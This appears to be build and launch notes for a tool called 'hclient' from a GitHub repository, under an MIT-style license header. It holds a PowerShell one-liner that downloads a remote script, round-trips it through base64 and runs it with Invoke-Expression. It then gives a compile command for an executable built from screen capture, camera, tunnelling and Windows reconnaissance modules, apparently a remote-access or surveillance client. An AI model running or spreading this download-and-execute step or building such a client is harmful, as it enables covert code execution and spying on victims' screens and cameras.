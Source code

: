 /*
Copyright (c) [2024] [F.B (Addict)]

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.
*/ 

Get-Content lol.ps1 | PowerShell.exe -noprofile -

 $onelineBase64Content = ([Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes((Invoke-WebRequest -Uri "https://github.com/addict4ever/SourceTools/raw/main/hclient/lol.ps1").Content))) -replace "`r`n", ""; Invoke-Expression ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($onelineBase64Content)))

cl /Fe:httptest.exe /I"C:\temp\hclient\include" /std:c++17 /EHsc user32.lib gdi32.lib httptest.cpp screencapture.cpp fileutils.cpp ctun.cpp camera.cpp reconwin.cpp /link /LIBPATH:"C:\temp\hclient\lib" libcurl.lib zlib.lib user32.lib gdi32.lib Ws2_32.lib Crypt32.lib Advapi32.lib ole32.lib strmiids.lib oleaut32.lib Netapi32.lib
